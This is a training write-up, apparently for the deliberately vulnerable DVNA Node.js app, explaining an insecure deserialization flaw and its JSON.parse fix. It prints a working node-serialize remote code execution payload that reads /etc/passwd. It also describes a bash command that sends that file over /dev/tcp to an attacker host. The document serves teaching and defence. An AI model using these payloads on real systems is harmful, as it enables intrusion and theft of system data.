 # Insecure Deserialization

The `Legacy Bulk Import` feature at http://127.0.0.1:9090/app/bulkproducts?legacy=true does not securely deserialize the data thus allowing remote code execution.

![jse1](../resources/jse1.png)

To execute code we need to provide a serialized object to the server. The object (as shown below) in this case would be a function that uses the `child_process` library to invoke `bash -c -- \"cat /etc/passwd > /dev/tcp/attacker-ip/nc-port\"`. The function is made into an [Immediately Invoked function Expression (IIFE)](https://en.wikipedia.org/wiki/Immediately-invoked_function_expression) by adding `()` to the end of the function

The following input will trigger the vulnerability

```
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('id;cat /etc/passwd', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

which is the serialized version of

```
var y = {
 rce : function(){
 require('child_process').exec('id;cat /etc/passwd', function(error, stdout, stderr) { console.log(stdout) });
 }(),
}
```

![jse2](../resources/jse2.png)

**Vulnerable Code snippet**

*core/appHandler.js*
```         
...
module.exports.bulkProductsLegacy = function (req,res){
	// TODO: Deprecate this soon
	if(req.files.products){
		var products = serialize.unserialize(req.files.products.data.toString('utf8'))
...
```

**Solution**

Since the required feature is to essentially parse a JSON, it can be parsed securely using `JSON.parse` instead.

*core/appHandler.js*
```
...
module.exports.bulkProductsLegacy = function (req,res){
	// TODO: Deprecate this soon
	if(req.files.products){
		var products = JSON.parse(req.files.products.data.toString('utf8'))
...
```

**Fixes**

Implemented in the following files

- *core/appHandler.js*

The fix has been implemented in this [commit](https://github.com/appsecco/dvna/commit/624a4ee88b3af804271d183f2921448851ddbfff)

**Recommendation**

- Use secure and recommended ways to implement application features
- Ensure that potentially vulnerable legacy features are't accessible

**Reference**

- <https://www.owasp.org/index.php/Top_10-2017_A8-Insecure_Deserialization>
- <https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/>